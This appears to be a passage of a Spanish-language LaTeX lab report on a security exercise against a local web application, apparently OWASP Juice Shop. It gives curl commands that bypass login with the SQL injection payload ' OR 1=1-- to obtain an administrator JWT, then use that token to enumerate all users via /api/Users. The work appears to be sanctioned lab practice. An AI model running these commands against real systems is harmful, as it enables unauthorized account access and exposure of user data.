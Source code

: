 \documentclass[12pt, letterpaper]{article}
\begin{document}
\subsection{Pasos realizados}

\subsubsection{Obtención del token JWT mediante SQL Injection}

Reutilizando la técnica de la Tarea 1, se obtuvo un token JWT de administrador mediante SQL Injection en el endpoint de autenticación. Este token es necesario para superar la verificación de presencia de cabecera de autorización:

\begin{lstlisting}[language=bash, caption={Obtención del token JWT de administrador mediante SQL Injection}]
TOKEN=$(curl -s -X POST http://192.168.40.11:3000/rest/user/login \
  -H "Content-Type: application/json" \
  -d "{\"email\":\"' OR 1=1--\",\"password\":\"a\"}" | \
  python3 -c "import sys,json; \
  print(json.load(sys.stdin)['authentication']['token'])")
echo "TOKEN: $TOKEN"
\end{lstlisting}

\subsubsection{Consulta del endpoint /api/Users sin autenticación}

Primero se verificó que el endpoint devuelve \textbf{HTTP 401 Unauthorized} cuando se accede sin token, confirmando que existe una validación mínima de presencia de credenciales:

\begin{lstlisting}[language=bash, caption={Verificación del rechazo sin token de autorización}]
curl -v http://192.168.40.11:3000/api/Users 2>&1 | grep "< HTTP"
# HTTP/1.1 401 Unauthorized
\end{lstlisting}

\subsubsection{Enumeración de usuarios con token de administrador}

Con el token obtenido, se realizó la petición GET al endpoint para obtener el listado completo de usuarios en formato JSON:

\begin{lstlisting}[language=bash, caption={Consulta de /api/Users con token JWT y formateo de la respuesta}]
curl -s http://192.168.40.11:3000/api/Users \
  -H "Authorization: Bearer $TOKEN" \
  | python3 -m json.tool | tee curl_api_users.txt
\end{lstlisting}
\end{document}
